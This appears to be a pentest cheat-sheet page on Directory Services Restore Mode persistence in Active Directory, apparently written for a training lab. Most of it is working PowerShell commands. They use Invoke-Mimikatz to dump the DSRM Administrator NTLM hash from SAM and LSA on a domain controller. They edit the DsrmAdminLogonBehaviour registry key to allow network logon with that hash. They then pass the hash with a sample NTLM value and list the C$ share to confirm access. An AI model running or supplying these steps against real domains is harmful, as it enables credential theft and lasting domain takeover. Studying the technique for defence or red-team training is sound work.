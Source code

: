 # DSRM

Directory Services Restore Mode (DSRM) is a Safe Mode boot option for Windows Server domain controllers and the main purpose of DSRM is to help system admins log in to the system to restore or repair an AD database.\
\
Every Domain controller has local administrator account called "Administrator" and his password is the DSRM password.



## Dump DSRM NTLM hash

{% hint style="info" %}
Require Domain Admin privileges
{% endhint %}

<pre class="language-powershell"><code class="lang-powershell"><strong># dumping from sam - DSRM local Administrator hash
</strong><strong>Invoke-Mimikatz -Command '"token::elevate" "lsadump::sam"' -Computername dcorp-dc
</strong></code></pre>

```powershell
# dumping from lsass - Administrator hash
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```



## Change Logon Behavior

In order to use DSRM account hash we need to change his registry key

<pre class="language-powershell"><code class="lang-powershell"><strong># Entering DC session
</strong><strong>Enter-PSSession -ComputerName dcorp-dc
</strong><strong>
</strong># Check if key exists
Get-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour'

# If exists set his value to 2
Set-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -Verbose

# If does not exist create it and set his value to 2
New-ItemProperty 'HKLM:\System\CurrentControlSet\Control\Lsa\' -Name 'DsrmAdminLogonBehaviour' -Value 2 -PropertyType DWORD -Verbose
</code></pre>



## Passing the hash

```powershell
# /domain - the domain controller
Invoke-Mimikatz -Command '"sekurlsa::pth /domain:dcorp-dc /user:Administrator
/ntlm:a102ad5753f4c441e3af31c97fad86fd 
/run:powershell.exe"'


# Check if worked
ls \\dcorp-dc\C$
```

